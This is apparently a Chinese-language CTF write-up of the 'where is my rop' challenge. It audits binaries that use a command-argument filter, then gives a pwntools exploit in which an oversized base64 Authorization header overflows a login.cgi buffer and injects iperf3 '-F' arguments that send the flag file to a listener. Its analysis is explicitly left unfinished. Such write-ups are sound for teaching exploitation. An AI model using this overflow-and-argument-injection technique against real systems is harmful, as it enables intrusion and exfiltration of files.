





# 1.EzDB


# 2.smart door lock


# 3.where is my rop

不清楚为什么，容器一开始启起来外面一直访问不了，port是正常配置了的，dockerfile中添加了一行`RUN apt-get -y install net-tools`,外面才可以正常访问了



采用login.cgi验证



逐个分析一下二进制文件：

- basement：start.sh中最先开始运行的文件
  - 创建并绑定到套接字文件路径
  - 持续监听客户端连接
  - 根据指令码调用不同处理函数
  - 返回响应长度和内容给客户端
- login.cgi：Web服务器的用户认证与会话管理
  - 处理http请求
  - 处理登录验证
- gen_enc：过HTTP请求接收用户输入的密码，并使用 AES-256-CBC 加密算法 对其进行加密处理
- libCgiso：自定义的库文件


分析basement，看看有没有命令执行的点，找到了几个system函数执行的点：



可以看见前面是有一个libCgiso库文件中的isSafeCommandArg对v3进行了检查（v7是指向v3的指针）（其余几个执行点前面也有这个检查函数）

分析可以发现函数进行了：

- **空指针检查**：若输入指针为空，直接返回 `0`（不安全）
- **逐字符遍历**：检查每个字符是否为危险字符：
  - 直接禁止的字符：`$`、`\n`（换行）、`<`、`>`、`^`、`|`、反引号（`）
  - 条件禁止的字符：通过位运算进一步过滤特定 ASCII 范围内的字符（如 : 之后的字符）



放弃这条路，继续审计，在basement中，找到一个可以执行iperf3命令的地方



iperf3的参数-F：可以接收或者发送指定的文件

```shell
-F, --file name           xmit/recv the specified file
```

用法：

* 接收文件：iperf3 -s -p 8888 -F /path/to/received_file
* 发送文件：iperf3 -c <服务器IP地址> -p 8888 -F /path/to/source_file

分析dockerfile可以发现flag在容器里面的名称并不是flag，而是another_name_of_flag_9467352101，所以正则匹配一下将文件带出来

exp：

```python
from pwn import *
context.clear(arch='amd64', os='linux', log_level='debug')

base64_payload = base64.b64encode((b'127.0.0.1:1234 -F /*9*::\0').ljust(512, b'\0') + p8(9))

payload = f'''
POST /cgi-bin/login.cgi?login HTTP/1.1
Host: 127.0.0.1
User-Agent: Python3
Accept: */*
Authorization: Basic {base64_payload.decode()}
Content-Length: 27

id=111111111111111111111111
'''.strip().replace('\n', '\r\n')

sh = remote('127.0.0.1', 8000)

sh.send(payload.encode())

sh.interactive()
```

在login.cgi中处理 Authorization 头时，进入函数sub_1820()，程序校验完 base64 字符串，并没有检查其长度。随后程序将 Basic 后的信息做 base64 解码并放到 byte_4100 上， 这一块数据位于 bss 上，并与 byte_4300 相邻。通过写入很长的 base64 的 Authorization，可以覆盖 byte_4300，这个可以导致命令执行（待分析）